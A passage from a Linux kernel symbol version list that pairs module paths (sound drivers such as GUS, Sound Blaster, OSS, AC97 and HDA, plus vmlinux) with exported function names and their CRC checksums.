    sound/isa/gus/snd-gus-lib snd_gf1_i_write8 0x7f1ac9de
    sound/isa/gus/snd-gus-lib snd_gf1_look16 0x2999e0ed
    sound/isa/gus/snd-gus-lib snd_gf1_look8 0x8f1b44ab
    sound/isa/gus/snd-gus-lib snd_gf1_lvol_to_gvol_raw 0x46db8d67
    sound/isa/gus/snd-gus-lib snd_gf1_mem_alloc 0x1e9d3ce3
    sound/isa/gus/snd-gus-lib snd_gf1_mem_free 0xe4ce8af1
    sound/isa/gus/snd-gus-lib snd_gf1_mem_lock 0xd59ea6ec
    sound/isa/gus/snd-gus-lib snd_gf1_mem_xfree 0xb6e7185d
    sound/isa/gus/snd-gus-lib snd_gf1_new_mixer 0x1e75b656
    sound/isa/gus/snd-gus-lib snd_gf1_pcm_new 0xe243df6d
    sound/isa/gus/snd-gus-lib snd_gf1_peek 0x8111d2c5
    sound/isa/gus/snd-gus-lib snd_gf1_poke 0xb389e6ef
    sound/isa/gus/snd-gus-lib snd_gf1_rawmidi_new 0x7f342393
    sound/isa/gus/snd-gus-lib snd_gf1_stop_voice 0x74f57dd0
    sound/isa/gus/snd-gus-lib snd_gf1_translate_freq 0x9fe091e5
    sound/isa/gus/snd-gus-lib snd_gf1_write16 0xb576ff88
    sound/isa/gus/snd-gus-lib snd_gf1_write8 0x76882d2a
    sound/isa/gus/snd-gus-lib snd_gf1_write_addr 0x2bb3fab2
    sound/isa/gus/snd-gus-lib snd_gus_create 0x35640efd
    sound/isa/gus/snd-gus-lib snd_gus_dram_read 0xadcb5c5f
    sound/isa/gus/snd-gus-lib snd_gus_dram_write 0xa2a3d5b4
    sound/isa/gus/snd-gus-lib snd_gus_initialize 0x43c0ea44
    sound/isa/gus/snd-gus-lib snd_gus_interrupt 0xe8226527
    sound/isa/gus/snd-gus-lib snd_gus_use_dec 0x32a620b1
    sound/isa/gus/snd-gus-lib snd_gus_use_inc 0x3d7f1fdd
    sound/isa/sb/snd-sb-common snd_sbdsp_command 0x5ed099b4
    sound/isa/sb/snd-sb-common snd_sbdsp_create 0x3c633255
    sound/isa/sb/snd-sb-common snd_sbdsp_get_byte 0xb3a1ee35
    sound/isa/sb/snd-sb-common snd_sbdsp_reset 0x945b8b32
    sound/isa/sb/snd-sb-common snd_sbmixer_add_ctl 0xae26c522
    sound/isa/sb/snd-sb-common snd_sbmixer_new 0xddaa84e0
    sound/isa/sb/snd-sb-common snd_sbmixer_read 0x73ed747b
    sound/isa/sb/snd-sb-common snd_sbmixer_write 0x1bf8b887
    sound/isa/sb/snd-sb16-csp snd_sb_csp_new 0x5e1a5ca9
    sound/isa/sb/snd-sb16-dsp snd_sb16dsp_configure 0x27f4830d
    sound/isa/sb/snd-sb16-dsp snd_sb16dsp_get_pcm_ops 0x257e7f51
    sound/isa/sb/snd-sb16-dsp snd_sb16dsp_interrupt 0x89f51d7b
    sound/isa/sb/snd-sb16-dsp snd_sb16dsp_pcm 0x8ace6c5c
    sound/isa/sb/snd-sb8-dsp snd_sb8dsp_interrupt 0x66bff9c7
    sound/isa/sb/snd-sb8-dsp snd_sb8dsp_midi 0xfb1815e5
    sound/isa/sb/snd-sb8-dsp snd_sb8dsp_midi_interrupt 0xea294c02
    sound/isa/sb/snd-sb8-dsp snd_sb8dsp_pcm 0xa3c0791b
    sound/isa/sb/snd-sbawe snd_emu8000_dma_chan 0x27cd94b1
    sound/isa/sb/snd-sbawe snd_emu8000_init_fm 0x717b601a
    sound/isa/sb/snd-sbawe snd_emu8000_load_chorus_fx 0x454ae60d
    sound/isa/sb/snd-sbawe snd_emu8000_load_reverb_fx 0xea59de94
    sound/isa/sb/snd-sbawe snd_emu8000_peek 0xb8f09f87
    sound/isa/sb/snd-sbawe snd_emu8000_peek_dw 0xdcf596e2
    sound/isa/sb/snd-sbawe snd_emu8000_poke 0x3efdd74b
    sound/isa/sb/snd-sbawe snd_emu8000_poke_dw 0xb63e2be9
    sound/isa/sb/snd-sbawe snd_emu8000_update_chorus_mode 0xf0c55a24
    sound/isa/sb/snd-sbawe snd_emu8000_update_equalizer 0xed45d9fe
    sound/isa/sb/snd-sbawe snd_emu8000_update_reverb_mode 0x6e8c8448
    sound/oss/ac97_codec ac97_alloc_codec 0x3ff65ffe
    sound/oss/ac97_codec ac97_probe_codec 0x0083452d
    sound/oss/ac97_codec ac97_read_proc 0xbae4da72
    sound/oss/ac97_codec ac97_register_driver 0xa98a2a2b
    sound/oss/ac97_codec ac97_release_codec 0x66042b4e
    sound/oss/ac97_codec ac97_restore_state 0x4d8f7d81
    sound/oss/ac97_codec ac97_save_state 0xd0116496
    sound/oss/ac97_codec ac97_set_adc_rate 0x75ef9b04
    sound/oss/ac97_codec ac97_set_dac_rate 0x3f30b14e
    sound/oss/ac97_codec ac97_tune_hardware 0x40058ce8
    sound/oss/ac97_codec ac97_unregister_driver 0xfa32ee5d
    sound/oss/aci aci_port 0x0d82adb6
    sound/oss/aci aci_rw_cmd 0xcc7c4cd8
    sound/oss/aci aci_version 0x93350c87
    sound/oss/ad1848 ad1848_control 0xc04f6f67
    sound/oss/ad1848 ad1848_detect 0x845a1638
    sound/oss/ad1848 ad1848_init 0x6af8d38d
    sound/oss/ad1848 ad1848_unload 0x9bf1cc62
    sound/oss/ad1848 adintr 0x509bfb25
    sound/oss/ad1848 attach_ms_sound 0xc20de8b1
    sound/oss/ad1848 probe_ms_sound 0x65e6d1ca
    sound/oss/ad1848 unload_ms_sound 0xb29a9148
    sound/oss/mpu401 attach_mpu401 0xbd4155a4
    sound/oss/mpu401 intchk_mpu401 0x5fe6dd42
    sound/oss/mpu401 mpuintr 0x48dfd0bc
    sound/oss/mpu401 probe_mpu401 0x5c8d3e32
    sound/oss/mpu401 unload_mpu401 0x5febf284
    sound/oss/opl3 opl3_detect 0x67481767
    sound/oss/opl3 opl3_init 0x897468de
    sound/oss/sb_lib probe_sbmpu 0x26553d10
    sound/oss/sb_lib sb_be_quiet 0x42424109
    sound/oss/sb_lib sb_dsp_detect 0xd8a2731c
    sound/oss/sb_lib sb_dsp_init 0xd0d0413e
    sound/oss/sb_lib sb_dsp_unload 0xc4884969
    sound/oss/sb_lib smw_free 0x450f9aea
    sound/oss/sb_lib unload_sbmpu 0x74afd69c
    sound/oss/sound DMAbuf_close_dma 0xc88b42ab
    sound/oss/sound DMAbuf_inputintr 0xeb315d99
    sound/oss/sound DMAbuf_open_dma 0x06b3013d
    sound/oss/sound DMAbuf_outputintr 0x987bcf12
    sound/oss/sound DMAbuf_start_dma 0xe056b71c
    sound/oss/sound MIDIbuf_avail 0x1f395686
    sound/oss/sound audio_devs 0x7bcc73f7
    sound/oss/sound cent_tuning 0x03ce7ff7
    sound/oss/sound compute_finetune 0x04c87ec8
    sound/oss/sound conf_printf 0x0f280035
    sound/oss/sound conf_printf2 0x7bdf0907
    sound/oss/sound do_midi_msg 0xb51587f6
    sound/oss/sound load_mixer_volumes 0xa1d5f04f
    sound/oss/sound midi_devs 0x9578940d
    sound/oss/sound midi_synth_aftertouch 0xf1ea8a20
    sound/oss/sound midi_synth_bender 0xba7dd041
    sound/oss/sound midi_synth_close 0xad45df73
    sound/oss/sound midi_synth_controller 0x892093e0
    sound/oss/sound midi_synth_hw_control 0xb14b22cd
    sound/oss/sound midi_synth_ioctl 0xaef743b2
    sound/oss/sound midi_synth_kill_note 0x2aa31695
    sound/oss/sound midi_synth_load_patch 0xf7426da3
    sound/oss/sound midi_synth_open 0xf6b3a2fb
    sound/oss/sound midi_synth_panning 0xdb400afa
    sound/oss/sound midi_synth_reset 0x56504ca2
    sound/oss/sound midi_synth_send_sysex 0xfddcbfb3
    sound/oss/sound midi_synth_set_instr 0xd85be938
    sound/oss/sound midi_synth_setup_voice 0x4ff47e9d
    sound/oss/sound midi_synth_start_note 0x9bdaf24d
    sound/oss/sound mixer_devs 0x5dcf0828
    sound/oss/sound note_to_freq 0x5d986fc9
    sound/oss/sound num_audiodevs 0x4cd01bdd
    sound/oss/sound num_midis 0xa1eae7cf
    sound/oss/sound num_mixers 0x9d845b18
    sound/oss/sound semitone_tuning 0x8b84aeb1
    sound/oss/sound seq_copy_to_input 0x7679ee76
    sound/oss/sound seq_input_event 0x17ba231d
    sound/oss/sound sequencer_init 0xf78f6363
    sound/oss/sound sequencer_timer 0x90bd9714
    sound/oss/sound sound_alloc_dma 0x9a95733f
    sound/oss/sound sound_alloc_mididev 0xba413f87
    sound/oss/sound sound_alloc_mixerdev 0x1b3df3cf
    sound/oss/sound sound_alloc_synthdev 0xc748d109
    sound/oss/sound sound_alloc_timerdev 0x51e354b2
    sound/oss/sound sound_close_dma 0x418f5fbe
    sound/oss/sound sound_free_dma 0x394cb088
    sound/oss/sound sound_install_audiodrv 0x181b71b9
    sound/oss/sound sound_install_mixer 0x2481d64d
    sound/oss/sound sound_open_dma 0xcc4b8797
    sound/oss/sound sound_timer_devs 0x78f90b39
    sound/oss/sound sound_timer_init 0x2161d5e8
    sound/oss/sound sound_timer_interrupt 0xe2675a79
    sound/oss/sound sound_timer_syncinterval 0xfa6871be
    sound/oss/sound sound_unload_audiodev 0xa948751e
    sound/oss/sound sound_unload_mididev 0xa6bb414c
    sound/oss/sound sound_unload_mixerdev 0xa51c913b
    sound/oss/sound sound_unload_synthdev 0x06339815
    sound/oss/sound sound_unload_timerdev 0xa41ead5f
    sound/oss/sound synth_devs 0x238cd9ea
    sound/oss/uart401 probe_uart401 0xebdbf659
    sound/oss/uart401 uart401intr 0x5df70158
    sound/oss/uart401 unload_uart401 0xecfdd9c9
    sound/pci/ac97/snd-ac97-bus ac97_bus_type 0xbfa06bf2
    sound/pci/ac97/snd-ac97-codec snd_ac97_bus 0x318a7758
    sound/pci/ac97/snd-ac97-codec snd_ac97_get_short_name 0xa1d34e6d
    sound/pci/ac97/snd-ac97-codec snd_ac97_mixer 0x8dac6502
    sound/pci/ac97/snd-ac97-codec snd_ac97_pcm_assign 0xff4117b0
    sound/pci/ac97/snd-ac97-codec snd_ac97_pcm_close 0xf6b7b927
    sound/pci/ac97/snd-ac97-codec snd_ac97_pcm_double_rate_rules 0x50a360ca
    sound/pci/ac97/snd-ac97-codec snd_ac97_pcm_open 0x70ee542b
    sound/pci/ac97/snd-ac97-codec snd_ac97_read 0x9f8fbb28
    sound/pci/ac97/snd-ac97-codec snd_ac97_resume 0x145f148f
    sound/pci/ac97/snd-ac97-codec snd_ac97_set_rate 0x3830407a
    sound/pci/ac97/snd-ac97-codec snd_ac97_suspend 0xb6447334
    sound/pci/ac97/snd-ac97-codec snd_ac97_tune_hardware 0x778e9aa3
    sound/pci/ac97/snd-ac97-codec snd_ac97_update 0x1f4d2ae9
    sound/pci/ac97/snd-ac97-codec snd_ac97_update_bits 0x6f3d33a5
    sound/pci/ac97/snd-ac97-codec snd_ac97_write 0xdcf8c17b
    sound/pci/ac97/snd-ac97-codec snd_ac97_write_cache 0xfe6b1e4c
    sound/pci/ac97/snd-ak4531-codec snd_ak4531_mixer 0xab1a009a
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_memblk_map 0xb3e8c720
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_ptr_read 0x67e7cae9
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_ptr_write 0x3b6c0604
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_synth_alloc 0xa1a902bc
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_synth_bzero 0xd5f2a3ed
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_synth_copy_from_user 0x27a5495a
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_synth_free 0xcfaef5b6
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_voice_alloc 0x2e82d280
    sound/pci/emu10k1/snd-emu10k1 snd_emu10k1_voice_free 0x7b1a92fe
    sound/pci/hda/snd-hda-codec snd_hda_build_controls 0x5898d388
    sound/pci/hda/snd-hda-codec snd_hda_build_pcms 0x1f2b7189
    sound/pci/hda/snd-hda-codec snd_hda_bus_new 0x2d392fed
    sound/pci/hda/snd-hda-codec snd_hda_calc_stream_format 0xc34a54c6
    sound/pci/hda/snd-hda-codec snd_hda_codec_new 0x7c7de60d
    sound/pci/hda/snd-hda-codec snd_hda_codec_read 0x2a9506fe
    sound/pci/hda/snd-hda-codec snd_hda_codec_setup_stream 0xf5f89e6a
    sound/pci/hda/snd-hda-codec snd_hda_codec_write 0x7288e03f
    sound/pci/hda/snd-hda-codec snd_hda_get_sub_nodes 0xf0660969
    sound/pci/hda/snd-hda-codec snd_hda_queue_unsol_event 0x68aa8986
    sound/pci/hda/snd-hda-codec snd_hda_resume 0x5612d074
    sound/pci/hda/snd-hda-codec snd_hda_sequence_write 0x31f1a2e7
    sound/pci/hda/snd-hda-codec snd_hda_suspend 0x83fcf9a5
    sound/pci/ice1712/snd-ice17xx-ak4xxx snd_ice1712_akm4xxx_build_controls 0x3c24d5c0
    sound/pci/ice1712/snd-ice17xx-ak4xxx snd_ice1712_akm4xxx_free 0x52ed4233
    sound/pci/ice1712/snd-ice17xx-ak4xxx snd_ice1712_akm4xxx_init 0x30d3042d
    sound/pci/trident/snd-trident snd_trident_alloc_voice 0x8a1213f9
    sound/pci/trident/snd-trident snd_trident_free_voice 0x5273bff0
    sound/pci/trident/snd-trident snd_trident_start_voice 0x777b6cbd
    sound/pci/trident/snd-trident snd_trident_stop_voice 0x019121ee
    sound/pci/trident/snd-trident snd_trident_synth_alloc 0x463e9033
    sound/pci/trident/snd-trident snd_trident_synth_copy_from_user 0xc3fdccfb
    sound/pci/trident/snd-trident snd_trident_synth_free 0x4826adfa
    sound/pci/trident/snd-trident snd_trident_write_voice_regs 0x047963f6
    sound/soundcore mod_firmware_load 0x39e3dd23
    sound/soundcore register_sound_dsp 0xdc84730b
    sound/soundcore register_sound_midi 0xe313d4a0
    sound/soundcore register_sound_mixer 0x528bef91
    sound/soundcore register_sound_special 0xb641ff8a
    sound/soundcore register_sound_special_device 0xd3b8a544
    sound/soundcore register_sound_synth 0xf8ff6b3e
    sound/soundcore sound_class 0x73831dd6
    sound/soundcore unregister_sound_dsp 0xcd083b10
    sound/soundcore unregister_sound_midi 0xfdab6de3
    sound/soundcore unregister_sound_mixer 0x7afc9d8a
    sound/soundcore unregister_sound_special 0x99c95fa5
    sound/soundcore unregister_sound_synth 0xdf03108a
    sound/synth/emux/snd-emux-synth snd_emux_free 0x9db1ced3
    sound/synth/emux/snd-emux-synth snd_emux_lock_voice 0x836f5ddd
    sound/synth/emux/snd-emux-synth snd_emux_new 0x524b305c
    sound/synth/emux/snd-emux-synth snd_emux_register 0xc1b94e4c
    sound/synth/emux/snd-emux-synth snd_emux_terminate_all 0x19092157
    sound/synth/emux/snd-emux-synth snd_emux_unlock_voice 0x481f2562
    sound/synth/emux/snd-emux-synth snd_sf_linear_to_log 0x655cb202
    sound/synth/snd-util-mem __snd_util_mem_alloc 0x6659fbd6
    sound/synth/snd-util-mem __snd_util_mem_free 0xfb3d3b53
    sound/synth/snd-util-mem __snd_util_memblk_new 0x8817e75e
    sound/synth/snd-util-mem snd_util_mem_alloc 0x1423e860
    sound/synth/snd-util-mem snd_util_mem_avail 0x7b8b6a47
    sound/synth/snd-util-mem snd_util_mem_free 0x742d3d00
    sound/synth/snd-util-mem snd_util_memhdr_free 0x5de0b4fb
    sound/synth/snd-util-mem snd_util_memhdr_new 0x47ac597a
    sound/usb/snd-usb-lib snd_usb_create_midi_interface 0x987f34d5
    sound/usb/snd-usb-lib snd_usbmidi_disconnect 0xd9d2bb03
    sound/usb/snd-usb-lib snd_usbmidi_input_start 0x16756dc0
    sound/usb/snd-usb-lib snd_usbmidi_input_stop 0x63343b1d
    vmlinux EISA_bus 0x7413793a
    vmlinux IO_APIC_get_PCI_irq_vector 0x1eb922a3
    vmlinux I_BDEV 0x381c7892
    vmlinux MCA_bus 0xf48a2c4c
    vmlinux SELECT_DRIVE 0x710d6fe2
    vmlinux __PAGE_KERNEL 0x95cc2139
    vmlinux ____request_resource 0x7aec8c42
    vmlinux ___pskb_trim 0xf55e73b6
    vmlinux __alloc_pages 0xa5f96140
    vmlinux __alloc_percpu 0x50c89f23
    vmlinux __alloc_skb 0xbb021f44
    vmlinux __bdevname 0x6b1b67d3
    vmlinux __bforget 0x861b0081
    vmlinux __bio_clone 0x05649d4a
    vmlinux __bitmap_and 0xac3b3cee
    vmlinux __bitmap_andnot 0xd02cc869
    vmlinux __bitmap_complement 0xf3bf0bce
    vmlinux __bitmap_empty 0x6d27ef64
    vmlinux __bitmap_equal 0xc256e762
    vmlinux __bitmap_full 0xb0b847ac
    vmlinux __bitmap_intersects 0xea10655a
    vmlinux __bitmap_or 0x9f2bdaac
    vmlinux __bitmap_shift_left 0x76bf656d
    vmlinux __bitmap_shift_right 0x0acb1a3c
    vmlinux __bitmap_subset 0x4a358252
    vmlinux __bitmap_weight 0x4cbbd171
    vmlinux __bitmap_xor 0xd0181f4f
    vmlinux __blockdev_direct_IO 0x30aafa96
    vmlinux __bread 0x7552254f
    vmlinux __breadahead 0xf3c9ed5f
    vmlinux __break_lease 0x7fe05da1
    vmlinux __brelse 0x2963d93e
    vmlinux __check_region 0xf1d0cdab
    vmlinux __clear_user 0x2455c156
    vmlinux __const_udelay 0xeae3dfd6
    vmlinux __copy_from_user_ll 0x1af40e18
    vmlinux __copy_to_user_ll 0xd7474566
    vmlinux __cpufreq_driver_target 0xd7d26fb6
    vmlinux __create_workqueue 0xc75478a9
    vmlinux __d_path 0xd3ff3614
    vmlinux __delay 0x466c14a7
    vmlinux __dev_get_by_index 0x3f54b7a9
    vmlinux __dev_get_by_name 0xe32ff9f2
    vmlinux __dev_remove_pack 0x02c59538
    vmlinux __down_failed 0x96b27088
    vmlinux __down_failed_interruptible 0x625acc81
    vmlinux __down_failed_trylock 0x02cd3086
    vmlinux __dst_free 0x87088bcf
    vmlinux __elv_add_request 0xed737371
    vmlinux __find_get_block 0xe9084505
    vmlinux __free_pages 0x47d34c24
    vmlinux __generic_file_aio_read 0x9dae246e
    vmlinux __generic_unplug_device 0x38172383
    vmlinux __get_free_pages 0x107d6ba3
    vmlinux __get_user_1 0xd16ac615
    vmlinux __get_user_2 0x4888a014
    vmlinux __get_user_4 0xa03d6a57
    vmlinux __getblk 0x50291287
    vmlinux __ide_abort 0x15aa6569
    vmlinux __ide_dma_bad_drive 0x6333a449
    vmlinux __ide_dma_check 0xa30373df
    vmlinux __ide_dma_end 0x8ef7c1c1
    vmlinux __ide_dma_good_drive 0x29389648
    vmlinux __ide_dma_host_off 0x63c64f2b
    vmlinux __ide_dma_host_on 0xe6c2b0ab
    vmlinux __ide_dma_lostirq 0x866d612b
    vmlinux __ide_dma_off 0x5a26d919
    vmlinux __ide_dma_off_quietly 0x7a10ce68
    vmlinux __ide_dma_on 0x05e74048
    vmlinux __ide_dma_timeout 0x4023f6b2
    vmlinux __ide_end_request 0x15aaa8e6
    vmlinux __ide_error 0x8565b54e
    vmlinux __ide_pci_register_driver 0x131e1900
    vmlinux __inet_lookup_listener 0x0ba62a0c
    vmlinux __inet_twsk_hashdance 0xf9c9f561
    vmlinux __inet_twsk_kill 0x754ce6e4
    vmlinux __init_timer_base 0x049a5196
    vmlinux __inode_dir_notify 0x1b585b12
    vmlinux __insert_inode_hash 0x7bebfb83
    vmlinux __invalidate_device 0x4f7b2125
    vmlinux __ioremap 0x9eac042a
    vmlinux __ip_route_output_key 0x7d414efd
    vmlinux __ip_select_ident 0x30216501
    vmlinux __kfifo_get 0x07527e0d
    vmlinux __kfifo_put 0x7c775173
    vmlinux __kfree_skb 0xdfd8711b
    vmlinux __kill_fasync 0xe9f25852
    vmlinux __kmalloc 0x12da5bb2
    vmlinux __lock_buffer 0x7a68d544
    vmlinux __lock_page 0x7bf3fb55
    vmlinux __mark_inode_dirty 0x593092e1
    vmlinux __mod_page_state 0x1db5c4e2
    vmlinux __mod_timer 0xbffc0a90
    vmlinux __module_put_and_exit 0xdf830fe1
    vmlinux __ndelay 0xdf8c695a
    vmlinux __neigh_event_send 0xbeaab5ec
    vmlinux __neigh_for_each_release 0xa71a0699
    vmlinux __net_timestamp 0x0c6daa03
    vmlinux __netdev_watchdog_up 0xe95d0c76
    vmlinux __nla_put 0xcd452c5e
    vmlinux __nla_reserve 0x15c8de2d
    vmlinux __page_cache_release 0x8f04da43
    vmlinux __pagevec_lru_add 0x85d36335
    vmlinux __pagevec_release 0x5ea6e14a
    vmlinux __pci_register_driver 0x2efe1eb7
    vmlinux __per_cpu_offset 0x7ecb001b
    vmlinux __print_symbol 0xdf60cc27
    vmlinux __printk_ratelimit 0x82384d0b
    vmlinux __pskb_pull_tail 0x752205b1
    vmlinux __put_user_1 0xc3aaf0a9
    vmlinux __put_user_2 0x5a4896a8
    vmlinux __put_user_4 0xb2fd5ceb
    vmlinux __put_user_8 0xb8e7ce2c
    vmlinux __read_lock_failed 0x1cb5d230
    vmlinux __release_region 0xd49501d4
    vmlinux __request_region 0x1a1a4f09
    vmlinux __rta_fill 0x59015ddc
    vmlinux __scm_destroy 0x87929023
    vmlinux __scm_send 0x7aefd091
    vmlinux __secpath_destroy 0xcedbb246
    vmlinux __serio_register_driver 0x879da9df
    vmlinux __serio_register_port 0xe8366ffe
    vmlinux __serio_unregister_port_delayed 0x7477180a
    vmlinux __set_page_dirty_buffers 0x8fe92e44
    vmlinux __set_page_dirty_nobuffers 0x0f3769ef
    vmlinux __set_personality 0x6a47571d
    vmlinux __sk_stream_mem_reclaim 0x0a598f2d
    vmlinux __skb_checksum_complete 0x8c43836b
    vmlinux __skb_linearize 0xaf61f7bc
    vmlinux __strncpy_from_user 0x9a78a84c
    vmlinux __symbol_get 0x868784cb
    vmlinux __symbol_put 0x6e9dd606
    vmlinux __tasklet_hi_schedule 0x60ea5fe7
    vmlinux __tasklet_schedule 0xed5c73bf
    vmlinux __tcf_em_tree_match 0xcc8b92ed
    vmlinux __udelay 0x9e7d6bd0
    vmlinux __up_wakeup 0x60a4461c
    vmlinux __user_walk 0xc76f6d8a
    vmlinux __vm_enough_memory 0x8c97a7db
    vmlinux __vmalloc 0x8b8a3dc3
    vmlinux __vmalloc_node 0x611804f2
    vmlinux __wait_on_bit 0x3d005ce5
    vmlinux __wait_on_bit_lock 0x2a4437e4
    vmlinux __wait_on_buffer 0xd786eeb6
    vmlinux __wake_up 0x59968f3c
    vmlinux __wake_up_bit 0x8d33e597
    vmlinux __wake_up_sync 0x76f861b3
    vmlinux __write_lock_failed 0xcb612803
    vmlinux __xfrm_policy_check 0x35da8be9
    vmlinux __xfrm_policy_destroy 0x4e3204e9
    vmlinux __xfrm_route_forward 0xd3b0102b
    vmlinux __xfrm_state_destroy 0x2efb31ac
    vmlinux _atomic_dec_and_lock 0x16250200
    vmlinux _ctype 0x8d3894f2
    vmlinux _read_lock 0x3d7c39ea
    vmlinux _read_lock_bh 0x21968b7f
    vmlinux _read_lock_irq 0x5a0e1e92
    vmlinux _read_lock_irqsave 0x0496a442
    vmlinux _read_trylock 0xd344122c
    vmlinux _read_unlock 0x26ab7baa
    vmlinux _read_unlock_bh 0x8bf46c54
    vmlinux _read_unlock_irq 0xf6188535
    vmlinux _read_unlock_irqrestore 0x553d0022
    vmlinux _spin_lock 0x1bcd461f
    vmlinux _spin_lock_bh 0x6943ea4b
    vmlinux _spin_lock_irq 0x45c077f2
    vmlinux _spin_lock_irqsave 0x87cddf59
    vmlinux _spin_trylock 0x7e3f931f
    vmlinux _spin_trylock_bh 0xc6bf4844
    vmlinux _spin_unlock 0x36439527
    vmlinux _spin_unlock_bh 0xe32e66b5
    vmlinux _spin_unlock_irq 0x1f4fc565
    vmlinux _spin_unlock_irqrestore 0x0a20fdde
    vmlinux _write_lock 0x4b05104f
    vmlinux _write_lock_bh 0x93ba42f1
    vmlinux _write_lock_irq 0x50bc9c7c
    vmlinux _write_lock_irqsave 0x3093180f
    vmlinux _write_trylock 0xaf397768
    vmlinux _write_unlock 0xb769dd13
    vmlinux _write_unlock_bh 0xcc4c11a9
    vmlinux _write_unlock_irq 0x3553b3e9
    vmlinux _write_unlock_irqrestore 0x52c0a61d
    vmlinux acpi_acquire_global_lock 0x70d8ab82
    vmlinux acpi_bus_add 0xdab6faab
    vmlinux acpi_bus_generate_event 0xaede2f1d
    vmlinux acpi_bus_get_device 0x75fb3244
    vmlinux acpi_bus_get_power 0x7389c9a8
    vmlinux acpi_bus_get_status 0x89f400ff
    vmlinux acpi_bus_receive_event 0x141dbf9b
    vmlinux acpi_bus_register_driver 0x0eced723
    vmlinux acpi_bus_set_power 0xcb733bf2
    vmlinux acpi_bus_start 0x49d0cfcd
    vmlinux acpi_bus_unregister_driver 0x366a9cdd
    vmlinux acpi_clear_event 0x0fd00a68
    vmlinux acpi_dbg_layer 0xb3284531
    vmlinux acpi_dbg_level 0xca8acc78
    vmlinux acpi_disable_event 0xb758b225
    vmlinux acpi_disabled 0x1a45cb6c
    vmlinux acpi_ec_read 0x0dd1015f
    vmlinux acpi_ec_write 0xa2bb10ba
    vmlinux acpi_enable_event 0x6237f6b5
    vmlinux acpi_enable_gpe 0xf47d47e0
    vmlinux acpi_enter_sleep_state 0xb077ef32
    vmlinux acpi_enter_sleep_state_s4bios 0xa5da0abd
    vmlinux acpi_evaluate_integer 0x1807e38b
    vmlinux acpi_evaluate_object 0xd0470c98
    vmlinux acpi_evaluate_reference 0xc899f5f6
    vmlinux acpi_extract_package 0xe93cc1b3
    vmlinux acpi_fadt 0xddcb58d9
    vmlinux acpi_fadt_is_v1 0x01438985
    vmlinux acpi_get_child 0xda268faa
    vmlinux acpi_get_current_resources 0xcf47e392
    vmlinux acpi_get_devices 0xee46feef
    vmlinux acpi_get_firmware_table 0x5331e1b5
    vmlinux acpi_get_handle 0x2bfeb410
    vmlinux acpi_get_name 0xca6c95f8
    vmlinux acpi_get_next_object 0x170c25ee
    vmlinux acpi_get_object_info 0x96f929e9
    vmlinux acpi_get_parent 0xfb0443fb
    vmlinux acpi_get_pci_id 0x058c75d9
    vmlinux acpi_get_pci_rootbridge_handle 0x1f8ec1b3
    vmlinux acpi_get_physical_device 0x7871f53d
    vmlinux acpi_get_register 0x2b5d6f73
    vmlinux acpi_get_sleep_type_data 0x8d8d96c6
    vmlinux acpi_get_table 0x2eb2eb15
    vmlinux acpi_get_type 0x0d3dda14
    vmlinux acpi_in_suspend 0xf78a658e
    vmlinux acpi_install_address_space_handler 0xff03752f
    vmlinux acpi_install_fixed_event_handler 0x5ac376a5
    vmlinux acpi_install_gpe_block 0xda8ddbdf
    vmlinux acpi_install_gpe_handler 0x02aff2f4
    vmlinux acpi_install_notify_handler 0xd9091363
    vmlinux acpi_map_lsapic 0xda0a6b0e
    vmlinux acpi_os_create_semaphore 0x9f8733e2
    vmlinux acpi_os_delete_semaphore 0xe65a005c
    vmlinux acpi_os_free 0x43b9bbb4
    vmlinux acpi_os_printf 0x667cecc9
    vmlinux acpi_os_queue_for_execution 0xdb9d67ff
    vmlinux acpi_os_read_pci_configuration 0xd94c1770
    vmlinux acpi_os_read_port 0x54935666
    vmlinux acpi_os_signal 0x874aea72
    vmlinux acpi_os_signal_semaphore 0x8cdbc08d
    vmlinux acpi_os_sleep 0x540f9040
    vmlinux acpi_os_stall 0x69005013
    vmlinux acpi_os_wait_events_complete 0xc9ab2eef
    vmlinux acpi_os_wait_semaphore 0x2565a159
    vmlinux acpi_os_write_port 0x99052a84
    vmlinux acpi_pci_irq_enable 0xdee3662a
    vmlinux acpi_pci_register_driver 0xd1472061
    vmlinux acpi_pci_unregister_driver 0x43385ad9
    vmlinux acpi_processor_power_init_bm_check 0xfdce9842
    vmlinux acpi_register_gsi 0x36d5355b
    vmlinux acpi_register_ioapic 0x636a5691
    vmlinux acpi_release_global_lock 0x3e2ae3a8
    vmlinux acpi_remove_address_space_handler 0xfcfaa928
    vmlinux acpi_remove_fixed_event_handler 0x2005e68a
    vmlinux acpi_remove_gpe_block 0x8e002cda
    vmlinux acpi_remove_gpe_handler 0xb07dfb3d
    vmlinux acpi_remove_notify_handler 0x2bb55d6e
    vmlinux acpi_resource_to_address64 0x263b54cc
    vmlinux acpi_root_dir 0xb9278294
    vmlinux acpi_set_current_resources 0x45bb0352
    vmlinux acpi_set_gpe_type 0xa3bbcd80
    vmlinux acpi_set_register 0x4a9d86e3
    vmlinux acpi_specific_hotkey_enabled 0x46621493
    vmlinux acpi_strict 0xa59c0666
    vmlinux acpi_unmap_lsapic 0xd18b6eb2
    vmlinux acpi_unregister_ioapic 0xe716baed
    vmlinux acpi_walk_namespace 0x19d5d20a
    vmlinux acpi_walk_resources 0x375c5115
    vmlinux acquire_console_sem 0xf174ed48
    vmlinux add_disk 0x1b54bcfe
    vmlinux add_disk_randomness 0x24734a9f
    vmlinux add_hotplug_env_var 0x79aba27d
    vmlinux add_taint 0xdc2adb35
    vmlinux add_to_page_cache 0x3e0d00ac
    vmlinux add_wait_queue 0xa3d44f8c
    vmlinux add_wait_queue_exclusive 0x771dc9e2
    vmlinux adjust_resource 0xfd05bd8a
    vmlinux aio_complete 0xb4d57c33
    vmlinux aio_put_req 0xb1e13a4a
    vmlinux alloc_buffer_head 0x7b899cca
    vmlinux alloc_chrdev_region 0x29537c9e
    vmlinux alloc_disk 0x9a0283c5
    vmlinux alloc_disk_node 0xe8548644
    vmlinux alloc_etherdev 0x3157db67
    vmlinux alloc_fcdev 0xbe59319a
    vmlinux alloc_fddidev 0xe94cd44f
    vmlinux alloc_hippi_dev 0x39e92d17
    vmlinux alloc_netdev 0x84c63b30
    vmlinux alloc_page_buffers 0xa2bca11d
    vmlinux alloc_trdev 0x5014b604
    vmlinux alloc_tty_driver 0x035f6add
